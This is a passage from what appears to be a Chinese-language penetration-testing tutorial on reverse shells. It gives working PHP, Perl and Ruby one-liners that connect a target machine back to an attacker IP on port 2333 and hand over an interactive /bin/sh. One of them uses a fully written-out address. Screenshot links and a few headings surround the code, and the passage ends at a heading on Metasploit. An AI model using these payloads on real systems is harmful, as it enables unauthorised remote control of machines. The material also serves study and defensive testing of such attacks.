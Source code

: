 执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/q116zmdyv5.png)

### **php 脚本反弹 shell**

当目标主机上有 php 环境时，我们可以用 php 来反弹 shell。

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'

```

### **Perl 脚本反弹 shell**

当目标主机上有 perl 环境时，我们可以用 perl 来反弹 shell。

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/fqnyeef9ik.png)

### **Ruby 脚本反弹 shell**

当目标主机上有 ruby 环境时，我们可以用 ruby 来反弹 shell。

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
ruby -rsocket -e 'c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'或ruby -rsocket -e 'exit if fork;c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

```

执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/dzzhhikjpc.png)

**使用 Metasploit 生成反弹 shell 用的一句话**
----------------------------------
